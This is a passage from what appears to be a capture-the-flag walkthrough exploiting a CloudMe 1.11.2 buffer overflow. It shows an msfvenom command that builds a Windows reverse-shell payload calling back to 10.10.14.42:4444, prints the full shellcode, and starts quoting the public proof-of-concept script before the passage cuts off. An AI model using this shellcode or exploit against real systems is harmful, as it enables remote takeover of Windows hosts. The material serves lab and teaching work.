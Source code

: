 We need to change the payload of the POC script.<br>
Run the following command to generate it.
```
root@kali:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.42 LPORT=4444 -b '\x00\x0A\x0D' -v payload -f python
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1869 bytes
payload =  b""
payload += b"\xb8\xbd\xb5\xf0\x16\xda\xc8\xd9\x74\x24\xf4\x5a"
payload += b"\x2b\xc9\xb1\x52\x31\x42\x12\x03\x42\x12\x83\x57"
payload += b"\x49\x12\xe3\x5b\x5a\x51\x0c\xa3\x9b\x36\x84\x46"
payload += b"\xaa\x76\xf2\x03\x9d\x46\x70\x41\x12\x2c\xd4\x71"
payload += b"\xa1\x40\xf1\x76\x02\xee\x27\xb9\x93\x43\x1b\xd8"
payload += b"\x17\x9e\x48\x3a\x29\x51\x9d\x3b\x6e\x8c\x6c\x69"
payload += b"\x27\xda\xc3\x9d\x4c\x96\xdf\x16\x1e\x36\x58\xcb"
payload += b"\xd7\x39\x49\x5a\x63\x60\x49\x5d\xa0\x18\xc0\x45"
payload += b"\xa5\x25\x9a\xfe\x1d\xd1\x1d\xd6\x6f\x1a\xb1\x17"
payload += b"\x40\xe9\xcb\x50\x67\x12\xbe\xa8\x9b\xaf\xb9\x6f"
payload += b"\xe1\x6b\x4f\x6b\x41\xff\xf7\x57\x73\x2c\x61\x1c"
payload += b"\x7f\x99\xe5\x7a\x9c\x1c\x29\xf1\x98\x95\xcc\xd5"
payload += b"\x28\xed\xea\xf1\x71\xb5\x93\xa0\xdf\x18\xab\xb2"
payload += b"\xbf\xc5\x09\xb9\x52\x11\x20\xe0\x3a\xd6\x09\x1a"
payload += b"\xbb\x70\x19\x69\x89\xdf\xb1\xe5\xa1\xa8\x1f\xf2"
payload += b"\xc6\x82\xd8\x6c\x39\x2d\x19\xa5\xfe\x79\x49\xdd"
payload += b"\xd7\x01\x02\x1d\xd7\xd7\x85\x4d\x77\x88\x65\x3d"
payload += b"\x37\x78\x0e\x57\xb8\xa7\x2e\x58\x12\xc0\xc5\xa3"
payload += b"\xf5\xe5\x13\xa5\x2f\x92\x21\xb9\x3e\x3e\xaf\x5f"
payload += b"\x2a\xae\xf9\xc8\xc3\x57\xa0\x82\x72\x97\x7e\xef"
payload += b"\xb5\x13\x8d\x10\x7b\xd4\xf8\x02\xec\x14\xb7\x78"
payload += b"\xbb\x2b\x6d\x14\x27\xb9\xea\xe4\x2e\xa2\xa4\xb3"
payload += b"\x67\x14\xbd\x51\x9a\x0f\x17\x47\x67\xc9\x50\xc3"
payload += b"\xbc\x2a\x5e\xca\x31\x16\x44\xdc\x8f\x97\xc0\x88"
payload += b"\x5f\xce\x9e\x66\x26\xb8\x50\xd0\xf0\x17\x3b\xb4"
payload += b"\x85\x5b\xfc\xc2\x89\xb1\x8a\x2a\x3b\x6c\xcb\x55"
payload += b"\xf4\xf8\xdb\x2e\xe8\x98\x24\xe5\xa8\xa9\x6e\xa7"
payload += b"\x99\x21\x37\x32\x98\x2f\xc8\xe9\xdf\x49\x4b\x1b"
payload += b"\xa0\xad\x53\x6e\xa5\xea\xd3\x83\xd7\x63\xb6\xa3"
payload += b"\x44\x83\x93"
```

Put the payload into the exploit, launch a netcat listener and execute the exploit code.<br>
We can obtain a shell as `SYSTEM`.
```
root@kali:~# cat 48389.py 
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

```
